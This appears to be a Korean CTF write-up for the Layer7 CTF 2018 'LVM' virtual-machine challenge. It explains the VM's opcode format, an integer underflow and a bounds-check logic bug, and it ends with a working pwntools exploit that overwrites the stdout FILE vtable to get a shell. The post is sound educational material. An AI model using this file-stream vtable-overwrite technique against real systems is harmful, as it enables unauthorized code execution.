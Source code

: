 ```yaml
---
title: Layer7 CTF 2018 - LVM
date: 2018-09-21 23:19:53
categories:
- VM
- CTF write up
tags:
- File Stream Oriented Programming
- Intger Underflow
---
```


```c
void __usercall __noreturn main(__int64 a1@<rdi>, char **a2@<rsi>, char **a3@<rdx>, _QWORD *a4@<r12>){
  _QWORD *addr; // rbx
  signed int v5; // er8
  addr = init_calloc();
  init_p();
  if ( !input(addr) )
    exit(-1);
  vm(addr, v5, a4);
  start(addr);}
```

드디어 풀었다... 대회때 풀진 않았고 VM문제 풀어 보라는 NextLine 님의 말을 따라.. 풀었다.

머리가 vm이 된 것 같은 기분을 경험했다.. 솔버 2명일 때 부터 알아봤어야 했는데..

기법을 새로 배운건 없었지만 생각을 많이 할 수 있어서 좋았다. VM문제도 처음 풀어봐서 좋았고!

립찔이에게 최적화 레벨 3은 너무 힘들었다... LABEL과 goto 문의 향연.. 



| operator  | op1 flag | op1 value      | op2 flag | op2 value                 |
| --------- | -------- | -------------- | -------- | ------------------------- |
| 0x1-0x7,9 | 0x0      | op1 = reg[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
|           | 0x2      | op1 = mem[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
| 0x0,8,a   | 0x1      | op1 = reg[idx] |          |                           |

if pflag set) *op1 = *op1 [operator] *op2

	unset) *op1 = *op1 [operator] op2

op2 flag 위치와 opcode 길이는 op1 flag 마다 바뀐다.



```c
        if ( mem_idx > 0xFFF )                  // integer underflow
        {
          puts("Invalid memory.");
          exit(-3);
        }
		op1 = (cpu[18] + mem_idx);
```

여기서 Integer Underflow가 터진다. 이거 찾는 게 힘들었다..ㅠㅠ



```c
          if ( mem_idx_2 > 4095 )
          {
            puts("Invalid memory.");
            flag = 1;
          }
```

여기선 로직 버그가 있다. 딱봐도 수상해보인다.



```python
from pwn import *

w = process("./lvm")

offset = 0x3c56a3 - 0xf02a4

# set op2=0x602010 
payload = "\x09\x00\x03\x01"+p64(0x602010)

# set cpu[18] = *0x602010 using memory logic bug, integer underflow
payload += "\x09\x02\xe0\xef\xff\xff\x02".ljust(11,"\xff")

# change vtable with operator
payload += "\x02\x02\x08\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x10\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x18\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x20\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x28\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x30\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x38\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x40\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x48\x00\x00\x00\x01"+p64(offset+1)

payload += "\x01\x02\xd8\x00\x00\x00\x01"+p64(0x1f40-0x8)

w.sendline(payload)
w.interactive()

```

다른 VM 문제들 보면 함수로 이쁘게 짜던데... 그러면 더 더러워 질 것 같아서 그냥 썼다.

로직 버그 쓰기위해 op2 를 써놓고 로직버그랑 인티저 언더플로우 이용해서 cpu[18]에 stdout 주소를 써준다.

이러면 stdout file struct 에 값을 쓸 수 있게 되는데, 여기서 어딘가의 libc 주소가 8개쯤 써있다.

여기에 연산 이용해서 one_shot offset 으로 맞춰준다.

vtable을 이 주소로 덮어주면 쉘이 따인다. 짜잔

vtable 말고 exit handler 나 dl open hook을 덮으면 된다는 데 그건 따로 포스팅해야지

